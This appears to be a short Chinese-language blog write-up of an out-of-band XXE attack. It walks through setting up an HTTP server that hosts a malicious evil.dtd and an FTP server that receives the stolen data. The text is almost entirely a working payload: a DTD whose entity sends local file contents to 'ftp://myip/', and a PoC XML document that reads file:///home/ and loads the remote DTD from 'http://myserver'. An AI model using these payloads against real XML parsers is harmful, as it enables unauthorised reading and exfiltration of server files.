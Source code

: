先搭建一个简单地http服务器，放置evil.dtd文件，文件内容如下：
	
	<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'ftp://myip/%payload;'>"> %all;

再用FileZilla Server 搭建一个ftp服务器，evil.dtd中的ftp地址就是我们所搭建的这个ftp地址~


POC:

	<!DOCTYPE root[
		<!ENTITY % payload SYSTEM "file:///home/">
		<!ENTITY % remote SYSTEM "http://myserver/evil.dtd">
		%remote; 
		%send;
	]>

POC中引用的顺序是有讲究的，先引用%remote;，会发出evil.dtd的请求，之后会解析dtd，引用%all;，这时就定义了%send;的entity，最后再通过%send;的引用，将文件内容发送到我们的服务器。

![发送请求](/img/2015-11-29-04.png)

查看ftp的日志，可以看到具体的子目录
